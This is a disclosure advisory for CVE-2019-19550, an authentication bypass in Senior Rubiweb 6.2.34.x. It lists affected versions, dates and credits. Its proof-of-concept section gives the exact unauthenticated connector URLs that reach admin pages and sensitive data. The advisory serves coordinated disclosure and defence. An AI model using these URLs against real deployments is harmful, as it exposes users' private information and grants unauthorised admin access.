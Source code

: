 # CVE-2019-19550

------------------------------------------

## [Description]

Remote Authentication Bypass in Senior Rubiweb 6.2.34.28 and 6.2.34.37 allows admin access to sensitive information of affected users using vulnerable versions. The attacker only needs to provide the correct URL.

------------------------------------------

## [Important Dates]

- Announcement (to Vendor): 2019-12-02
- Public disclosure date: 2020-01-30

------------------------------------------

## [Vulnerability Type]

Incorrect Access Control

------------------------------------------

## [Vendor of Product]

Senior

------------------------------------------

## [Affected Product Code Base]

- Rubiweb - 6.2.34.37
- Rubiweb - 6.2.34.28
- Other versions may be affected, especially in the same family (not tested yet)

------------------------------------------

## [Affected Component]

Rubiweb

------------------------------------------

## [Attack Type]

Remote

------------------------------------------

## [Impact Information Disclosure]

True

------------------------------------------

## [Attack Vectors]

Access to sensitive information is publicly available without special requirements (only the correct URI)

------------------------------------------

## [Has vendor confirmed or acknowledged the vulnerability?]

True

------------------------------------------

## [PoC - Proof of Concept]

1. Simply try to connect to authenticated portal to confirm the existence and version of affected product: 
   - hXXp://subdomain.customer.tld:8080/rubiweb/
2. Access the vulnerable page (admin without authentication):
   - hXXp://subdomain.customer.tld:8080/rubiweb/conector?ACAO=EXESENHA&SIS=FP&LOGINKIND=1
   - hXXp://subdomain.customer.tld:8080/rubiweb/conector?ACAO=ENTRANCEREL&SIS=FP&NOME=FPIN103.ANU

------------------------------------------

## [Discoverer]

Mauricio Santos (R&D UnderProtection) and Hesron Hori (R&D UnderProtection) and @redteambrasil

------------------------------------------

## [Thanks to]

Senior - Vendor's Information Security Team who collaborated to a coordinated disclosure

------------------------------------------

## [Reference]

- https://www.underprotection.com.br
- https://documentacao.senior.com.br/tecnologia/6.2.34/index.htm
- https://documentacao.senior.com.br/tecnologia/6.2.34/index.htm#central-de-configuracao/CfgWebApplicationsForm.htm%23CfgWebApplicationsForm_edtUserName
